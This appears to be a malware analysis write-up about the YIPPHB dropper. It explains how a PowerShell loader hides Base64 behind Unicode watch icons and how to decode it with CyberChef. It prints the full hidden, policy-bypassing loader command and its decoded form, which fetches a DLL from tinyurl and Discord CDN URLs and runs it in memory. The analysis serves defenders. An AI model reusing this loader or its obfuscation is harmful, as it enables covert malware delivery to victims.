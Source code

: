 ## Analysis

The analysis of this intrusion set describes an obfuscation method we believe is intended to evade automated analysis of PowerShell commands, and which we characterize as rudimentary and prescriptive.

![Execution flow for the REF4526 intrusion set](/assets/images/doing-time-with-the-yipphb-dropper/image3.png)

### Loader phase

While analyzing Powershell commands in Elastic’s telemetry, we observed Unicode icons embedded into Powershell commands. The use of Unicode to obfuscate Powershell commands is not a technique we have observed.

```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command $iUqm = 'JABSAG8AZABhAEMAbwBwAHkAIAA9ACAAJwATIK8ArwATIBMgrwATIBMgrwCvACcAOwBbAEIAeQB0AG⌚⌚⌚AWwBdAF0AIAAkAEQATABMACAAPQAgAFsAcwB5AHMAdABlAG0ALgBDAG8AbgB2AG⌚⌚⌚AcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQA⌚⌚⌚wB0AHIAaQBuAGcAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAG⌚⌚⌚AdAAuAFcAZQBiAEMAbABpAG⌚⌚⌚AbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQA⌚⌚⌚wB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwB0AGkAbgB5AH⌚⌚⌚AcgBsAC4AYwBvAG0ALwAyAG⌚⌚⌚AcgBwAGgANgBjAHMAJwApACkAOwBbAHMAeQBzAHQAZQBtAC4AQQBwAHAARABvAG0AYQBpAG4AXQA6ADoAQwB1AHIAcgBlAG4AdABEAG8AbQBhAGkAbgAuAEwAbwBhAGQAKAAkAEQATABMACkALgBHAG⌚⌚⌚AdAB⌚⌚⌚AHkAcABlACgAJwBOAHcAZwBvAHgATQAuAEsA⌚⌚⌚ABKAGEATgBqACcAKQAuAEcAZQB0AE0AZQB0AGgAbwBkACgAJwBQAF⌚⌚⌚AbABHAEsAQQAnACkALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBvAGIAagBlAGMAdABbAF0AXQAgACgAJwB0AHgAdAAuADAAMAAwADgAdABjAG8AMAAxAC8AMQA3ADkAOAAxADIAOAAyADQAOQAzADgAMgA4ADgANAAzADAAMQAvADMAMgA1ADkANwAxADkAMgA0ADkAOQA2ADMANgA1ADYANQA5AC8AcwB0AG4AZQBtAGgAYwBhAHQAdABhAC8AbQBvAGMALgBwAHAAYQBkAHIAbwBjAHMAaQBkAC4AbgBkAGMALwAvADoAcwBwAHQAdABoACcAIAAsACAAJABSAG8AZABhAEMAbwBwAHkAIAAsACAAJwAQEMwGJwbMBicAIAApACkA';$OWjuxD = [system.Text.Encoding]::Unicode.GetString( [system.Convert]::FromBase64String( $iUqm.replace('⌚⌚⌚','U') ) );$OWjuxD = $OWjuxD.replace('-¯¯--¯--¯¯', '[redacted].vbs');powershell.exe -windowstyle hidden -ExecutionPolicy Bypss -NoProfile -Command $OWjuxD
```

While this technique is not overly complex in that it simply replaces the icons with an ASCII character, it is creative. This technique could delay automated analysis of Base64 encoded strings unless the Powershell command was either fully executed or an analysis workflow was leveraged to process Unicode and replacement functions.

Looking at the Powershell command, we were able to identify a simple process to replace the Unicode watch icons (⌚⌚⌚) with a **U**. To illustrate what’s happening, we can use the data analysis tool created by the GCHQ: [CyberChef](https://gchq.github.io/CyberChef/).

By loading the “Find / Replace”, the “Decode Base64”, and the “Decode text (UTF-16LE)” recipes, we can decode the Powershell string.

![Decoding the Unicode Base64 Powershell string](/assets/images/doing-time-with-the-yipphb-dropper/image5.png)

Within the decoded string we can see how the loader, follow-on dropper, and implant are installed.

```
$RodaCopy = '-¯¯--¯--¯¯';[Byte[]] $DLL = [system.Convert]::FromBase64String((New-Object Net.WebClient).DownloadString('https://tinyurl[.]com/2erph6cs'));[system.AppDomain]::CurrentDomain.Load($DLL).GetType('NwgoxM.KPJaNj').GetMethod('PUlGKA').Invoke($null, [object[]] ('txt.0008tco01/1798128249382884301/325971924996365659/stnemhcatta/moc[.]ppadrocsid.ndc//:sptth' , $RodaCopy , 'တیای' ))
```
